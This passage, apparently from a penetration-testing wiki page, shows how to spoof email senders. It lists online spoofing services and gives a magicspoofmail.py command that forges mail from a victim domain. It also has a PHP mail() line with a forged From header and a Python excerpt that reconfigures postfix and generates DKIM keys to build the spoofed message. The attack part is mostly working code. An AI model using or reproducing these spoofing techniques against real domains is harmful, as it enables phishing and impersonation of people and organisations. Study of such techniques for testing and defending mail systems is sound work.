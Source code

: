 * [anonymailer](https://www.anonymailer.net/)
* [emkei](https://emkei.cz/)
* [magicspoofing](https://github.com/magichk/magicspoofing)

```bash
# This will send a test email from test@victim.com to destination@gmail.com
python3 magicspoofmail.py -d victim.com -t -e destination@gmail.com
# But you can also modify more options of the email
python3 magicspoofmail.py -d victim.com -t -e destination@gmail.com --subject TEST --sender administrator@victim.com
```

或者手动完成

{% tabs %}
{% tab title="PHP" %}
```php
# This will send an unsigned message
mail("your_email@gmail.com", "Test Subject!", "hey! This is a test", "From: administrator@victim.com");
```
{% endtab %}

{% tab title="Python" %}
```python
# Code from https://github.com/magichk/magicspoofing/blob/main/magicspoofmail.py

import os
import dkim #pip3 install dkimpy
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase

# Set params
destination="destination@gmail.com"
sender="administrator@victim.com"
subject="Test"
message_html="""
<html>
	<body>
		<h3>This is a test, not a scam</h3>
		<br />
	</body>
</html>
"""
sender_domain=sender.split("@")[1]

# Prepare postfix
os.system("sudo sed -ri 's/(myhostname) = (.*)/\\1 = "+sender_domain+"/g' /etc/postfix/main.cf")
os.system("systemctl restart postfix")

# Generate DKIM keys
dkim_private_key_path="dkimprivatekey.pem"
os.system(f"openssl genrsa -out {dkim_private_key_path} 1024 2> /dev/null")
with open(dkim_private_key_path) as fh:
    dkim_private_key = fh.read()

# Generate email
msg = MIMEMultipart("alternative")
msg.attach(MIMEText(message_html, "html"))
msg["To"] = destination
msg["From"] = sender
msg["Subject"] = subject
headers = [b"To", b"From", b"Subject"]
msg_data = msg.as_bytes()
```